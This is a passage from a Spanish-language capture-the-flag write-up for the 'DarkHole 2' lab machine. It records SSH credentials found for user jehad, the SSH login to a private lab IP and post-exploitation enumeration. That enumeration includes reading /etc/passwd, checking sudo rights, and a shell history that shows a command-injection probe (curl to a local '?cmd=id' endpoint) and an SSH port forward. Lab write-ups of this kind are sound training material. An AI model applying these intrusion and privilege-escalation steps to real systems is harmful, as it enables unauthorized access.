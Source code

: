 > [!success] Credenciales SSH Obtenidas
> Usuario: jehad  
> Contraseña: fool

### Obtención de Shell SSH

Comando:
```
ssh jehad@172.16.23.128
```
![[darkhole_2.18.png]]
	Acceso exitoso a la máquina como usuario jehad.

---

## Post-Explotación y Privesc

### Enumeración Interna

**Inventario del sistema:**

Comando para ver kernel:

uname -a

Resultado: Linux darkhole 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64

Comando para ver versión del SO:

cat /etc/os-release

Resultado: Ubuntu 20.04.3 LTS (Focal Fossa)

Comando para verificar privilegios sudo:

sudo -l

Resultado: El usuario jehad no tiene permisos sudo.

Comando para ver grupos:

id

Resultado: jehad no pertenece a grupos privilegiados.

Comando para listar usuarios:

cat /etc/passwd

Usuarios con bash: root (UID 0), lama (UID 1000), jehad (UID 1001), losy (UID 1002).

Comando para ver historial:

history

![[darkhole_2.19.png]]

Comandos críticos en el historial:
- cd /home/losy
- cd /opt/web
- curl "http://localhost:9999/?cmd=id"
- ssh -L 127.0.0.1:90:192.168.135.129:9999 jehad@192.168.135.129
